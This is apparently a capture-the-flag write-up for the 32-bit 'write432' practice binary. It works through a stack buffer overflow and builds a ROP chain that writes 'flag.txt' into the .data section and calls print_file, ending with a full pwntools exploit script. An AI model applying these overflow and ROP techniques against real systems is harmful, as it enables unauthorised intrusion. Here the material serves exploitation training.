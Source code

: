 # Basic Test:

## Check call system into binary file
```bash
strace ./write432
```

## Check protection into binary file
```bash
checksec ./write432
```

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*44 + "B"*4*' | ./write432
```

## See output
```bash
sudo dmesg -T
```

	[dim. avril  9 17:36:41 2023] write432[221900]: segfault at 42424242 ip 0000000042424242 sp 00000000ffb57d30 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for two parameters for moving into a section writable

```bash
ROPgadget --binary ./write432 | grep "pop edi ; pop ebp"
```
 
	0x080485aa : pop edi ; pop ebp ; ret

## Find a section writable
```bash
readelf -S ./write432
```

	    [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4

## Find a gadget for moving the file name into .data
```bash
ROPgadget --binary ./write432 | grep "mov dword"
```

	0x08048543 : mov dword ptr [edi], ebp ; ret

## Find a gadget for one parameter
```bash
ROPgadget --binary ./write432 | grep "pop ebp"
```

	0x080485ab : pop ebp ; ret

## Find the address of the print_file function
```bash
pwngdb> disass*usefulFunction
```

	   0x0804852a <+0>:     push   ebp
	   0x0804852b <+1>:     mov    ebp,esp
	   0x0804852d <+3>:     sub    esp,0x8
	   0x08048530 <+6>:     sub    esp,0xc
	   0x08048533 <+9>:     push   0x80485d0
	   0x08048538 <+14>:    call   0x80483d0 <print_file@plt>
	   0x0804853d <+19>:    add    esp,0x10
	   0x08048540 <+22>:    nop
	   0x08048541 <+23>:    leave
	   0x08048542 <+24>:    ret

## Convert Big Endian in Little Endian with python2
```python
>>> from pwn import *
>>> p32(0x080485aa)
'\xaa\x85\x04\x08'
>>> p32(0x0804a018)
'\x18\xa0\x04\x08'
>>> p32(0x08048543)
'C\x85\x04\x08'
>>> p32(0x080485aa)
'\xaa\x85\x04\x08'
>>> p32(0x0804a018+4)
'\x1c\xa0\x04\x08'
>>> p32(0x080485ab)
'\xab\x85\x04\x08'
>>> p32(0x80483d0)
'\xd0\x83\x04\x08'
```

## Payload final CLI

```bash
python2 -c 'print "A"*44 + "\xaa\x85\x04\x08" + "\x18\xa0\x04\x08" + "flag" + "C\x85\x04\x08" + "\xaa\x85\x04\x08" + "\x1c\xa0\x04\x08" + ".txt" + "C\x85\x04\x08" + "\xd0\x83\x04\x08" + "\xab\x85\x04\x08" + "\x18\xa0\x04\x08"' | ./write432 # pop edi ; pop ebp = 0x080485aa + .data = 0x0804a018 + string1 = flag + mov dword PTR [edi], ebp = 0x08048543 + pop ebp = 0x080485aa + .data+4 = 0x0804a018+4 + string2 = .txt + mov dword PTR [edi], ebp = 0x08048543 + call print_file = 0x80483d0 + pop ebp = 0x080485ab + .data = 0x0804a018
```

## Python2 pwntools script
```python
#usr/bin/python2
from pwn import *
elf = ELF("./write432")

padding = "A"*44
pop_edi_pop_ebp = p32(0x080485aa)
section_data = p32(0x0804a018)
section_data_4 = p32(0x0804a018+4)
string1 = "flag"
string2 = ".txt"
mov_dword_edi_ebp = p32(0x08048543)
pop_ebp = p32(0x080485ab)
call_print_file = p32(0x80483d0)

payload = padding + pop_edi_pop_ebp + section_data + string1 + mov_dword_edi_ebp
payload += pop_edi_pop_ebp + section_data_4 + string2 + mov_dword_edi_ebp
payload += call_print_file + pop_ebp + section_data

  

print(payload)
io = process(elf.path)
io.sendlineafter(">", payload)
print(io.recvall())

"""
io = process(elf.path)
io.sendline(payload)
io.interactive()
"""
```